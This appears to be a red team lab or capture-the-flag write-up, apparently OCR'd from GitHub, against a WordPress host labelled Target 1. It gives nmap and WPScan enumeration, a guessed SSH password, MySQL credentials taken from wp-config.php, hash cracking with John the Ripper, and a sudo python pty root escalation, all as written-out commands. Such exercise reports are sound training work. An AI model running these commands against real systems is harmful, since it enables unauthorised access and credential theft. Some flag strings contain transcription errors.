 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: MEDIUM)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity HIGH)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: HIGH)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: MEDIUM-HIGH)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### 1. <ins>`flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*</ins>
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`.


<img src="/Images/wpscan-users.png">
<img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in an HTML comment below the footer.
        - Commands:
            - `ssh michael@192.168.1.110`
            - `pw: michael`
            - `cd /var/www/html`
            - `ls -l`
            - `nano service.html`

### 2. <ins>**flag2.txt**: *fc3fd58dcdad9ab23faca6e9a3e581c*</ins>
- **Exploit Used**
      - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

### 3. <ins>**Flag3: afc01ab56b50591e7dccf93122770cd2**</ins>
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


### 4. <ins>**Flag4: 715dea6c055b9fe3337544932f2941ce**</ins>
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

      	  	- Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">